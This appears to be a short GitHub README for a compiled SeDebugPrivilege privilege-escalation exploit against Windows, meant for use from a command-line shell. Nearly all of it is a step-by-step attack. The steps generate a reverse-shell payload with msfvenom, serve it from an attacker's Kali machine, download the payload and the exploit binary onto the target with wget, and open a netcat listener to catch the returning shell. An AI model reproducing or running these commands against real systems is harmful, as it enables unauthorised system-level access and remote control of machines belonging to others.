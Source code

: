 # SeDebugPrivilege
SeDebugPrivilege compiled exploit

This exploit is when you do not have a GUI on the machine, only CLI. A shell.exe file must be uploaded into the C:\Temp directory

mkdir C:\Temp #on windows
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP ADDRESS> LPORT=<LISTENING PORT> -f exe > shell.exe #on kali
python3 -m http.server 80 #on kali
wget http://<IP ADDRESS>/shell.exe -o C:\Temp\shell.exe #powershell
wget http://<IP ADDRESS>/SeDebugPrivilegePoC.exe -o C:\Temp\SeDebugPrivilegePoC.exe #powershell
nc -lvnp <LISTENING PORT> #kali
./SeDebugPrivilegePoC.exe

You should recieve a callback from the Windows machine


